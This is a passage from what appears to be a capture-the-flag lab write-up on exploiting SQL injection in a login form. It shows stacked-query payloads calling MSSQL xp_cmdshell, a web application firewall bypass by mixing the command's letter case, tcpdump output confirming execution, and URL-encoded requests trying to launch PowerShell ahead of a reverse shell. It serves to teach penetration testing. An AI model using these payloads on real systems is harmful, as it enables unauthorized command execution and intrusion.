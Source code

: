 My first attempt is to send (URL encoded):

    
    
    3;EXEC xp_cmdshell 'ping 10.10.14.6'-- -
    

It returns 500. I’ll try again with double quotes instead of single. It
returns a 302 instantly, with no pings.

#### WAF Bypass

It’s not trivial to see, but it’s always a good idea to play with casing on
known risky commands like `xp_cmdshell`. That’s the kind of thing that a web
application firewall would key on.

When I change the injection to `3;EXEC xp_cmDshElL "ping 10.10.14.6"-- -`, it
hangs for five seconds, and there’s ICMP at `tcpdump`:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    19:14:48.413133 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 13, length 40
    19:14:48.413227 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 13, length 40
    19:14:49.424087 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 14, length 40
    19:14:49.424126 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 14, length 40
    19:14:50.439731 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 15, length 40
    19:14:50.439775 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 15, length 40
    19:14:51.455371 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 16, length 40
    19:14:51.455400 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 16, length 40
    

### Reverse Shell

#### Finding PowerShell

I’ll try the same `ping` command, but invoked with PowerShell (I’ve reordered
the parameters to make the changing one more obvious here):

    
    
    logintype=3%3bexecute+xp_cmDshElL+'powershell.exe+-c+ping+10.10.14.6'%3b&username=admin&password=admin&rememberme=ON&B1=Login
    

I don’t see anything come back. This could be because PowerShell isn’t in the
path, or PowerShell is being blocked. I can try calling it by full path:

    
    
    logintype=3%3bexecute+xp_cmDshElL+'C:\Windows\system32\windowspowershell\v1.0\powershell.exe+-c+ping+10.10.14.6'%3b&username=admin&password=admin&rememberme=ON&B1=Login
    

Still nothing. I’ll try the 32-bit version located at
`C:\Windows\SysWow64\WindowsPowerShell\v1.0\PowerShell.exe`:

    
    
    logintype=3%3bexecute+xp_cmDshElL+'C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe+-c+ping+10.10.14.6'%3b&username=admin&password=admin&rememberme=ON&B1=Login
    